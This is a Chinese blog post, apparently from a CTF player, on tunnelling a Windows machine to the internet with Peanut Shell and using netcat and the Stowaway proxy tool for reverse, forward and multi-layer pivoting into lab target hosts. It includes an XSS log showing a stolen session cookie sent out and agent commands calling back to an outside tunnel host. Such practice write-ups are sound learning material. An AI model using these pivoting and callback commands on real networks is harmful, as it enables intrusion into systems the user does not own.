+++
title = "内网穿透Windows&&代理搭建"
slug = "intranet-penetration-windows-proxy-setup"
description = "酒店学的，网上没人发过怎么用Stowaway正向代理，我应该是首发吧？"
date = "2025-03-13T19:26:46"
lastmod = "2025-03-13T19:26:46"
image = ""
license = ""
categories = ["talk"]
tags = ["工具"]
+++

因为局域网不能连接服务器，所以必须把本机穿透了，或者是将虚拟机的端口进行转发，这里记录一下自己的学习过程

## 花生壳穿透

这里选择的是大家都在说的花生壳来进行穿透，但是网上我看有好几个网站，官网应该是这个[贝锐花生壳](https://hsk.oray.com/) 进入之后注册登录账号下载花生壳，



下载好了之后就点击这个，就可以到网页，选择个人使用，接着就选https，到了这里



这里我们填写WIFI的地址，打开终端，输入`ipconfig`，可能每个人的不一样，反正能出地址就好了，填那个IPv4的地址，端口随便填，我填的是5555端口，用python起一个服务，访问一下发现成功

```cmd
C:\Users\baozhongqi>python -m http.server 5555
Serving HTTP on :: port 5555 (http://[::]:5555/) ...
::ffff:192.xxx.xxx.xxx - - [13/Mar/2025 20:05:10] "GET / HTTP/1.1" 200 -
```

随便找一个ctfshowxss来打一下，发现成功了，但是我想要的是反弹shell，所以http协议的好像不太对

```
::ffff:192.xxx.xxx.xxx - - [13/Mar/2025 20:26:35] "GET /?flag=PHPSESSID=5q1rtdni8kcrkoci63cpjb88g4;%20flag=ctfshow%7B3898965a-61bd-4f86-a347-1aba25c9c905%7D HTTP/1.1" 200 -
```

安装一个nc来监听，这是必须的[NC](https://eternallybored.org/misc/netcat/)，把`D:\netcat-win32-1.12`添加到环境变量里面，现在要配置无服务器来进行反弹shell的部分，也就是我们真正要的



添加映射如图就好了，之前我一直写的`ipconfig`得到的地址，一直没成功，但是这样子就成功了





## 代理概念

其实都一样，主要就是看怎么能链接上去，如果防火墙的入站规则配置的相对严格时，就用反向代理。如果防火墙的出站规则相对严格时，我们选择正向代理。而二者的区别用图可以这样子看

反向的图



正向的图



看图就知道，代理的时候，哪一端先运行命令

## Stowaway

其他的命令咱也不写，咱也不会，就只会这些

### 局域网

#### 反向代理

直接把Windows当成是服务器用，因为我进行了本地穿透，在自己的Windows上面运行命令

```
.\windows_x64_admin.exe -l 5555 -s 123
```

第一台被打的靶机上面运行

```
./linux_x64_agent -c 1055482vbac75.vicp.fun:21413 -s 123 --reconnect 8
```

然后在本地就收到了



在本地再运行

```
use 0
socks 1234
```

这样，我们就有了一层代理



#### 正向代理

找了一圈也没人写，我应该是第一个写正向用这个怎么连接的，在靶机上面运行命令

```
./linux_x64_agent -l 9999 -s 123
```

然后在自己的Windows本机进行一个正向代理的链接

```
.\windows_x64_admin.exe -c 192.168.180.95:9999 -s 123
```

就可以了



### 可通外网

这个直接用服务器，命令基本一致，随便搞

## 多层代理

对应的环境如图，



这里也一般用反向代理，现在自己的服务器运行下面的命令

```
./linux_x64_admin -l 1234 -s 123
```

然后在靶机1里面进行反向链接，把内层流量转出来

```
./linux_x64_agent -c 自己的服务器:1234 -s 123 --reconnect 8
```

然后在再自己的服务器上面运行

```
use 0 
listen
1
1234
```

这个时候我们就相当于在靶机1建立了一个监听1234的代理，然后我们在靶机2搭建代理来

```
./linux_x64_agent -c 靶机1:1234 -s 123 --reconnect 8
```

就会收到了id1是新代理



这个时候只要再`use 1`就好了



虽然说这里也只有两层，但是继续往里面深入也是一样的，加节点就可以了

# 小结

是打铁三临时学的，问了很多师傅，但是都不是很明白😟，最后和蒙同志在酒店研究出来了
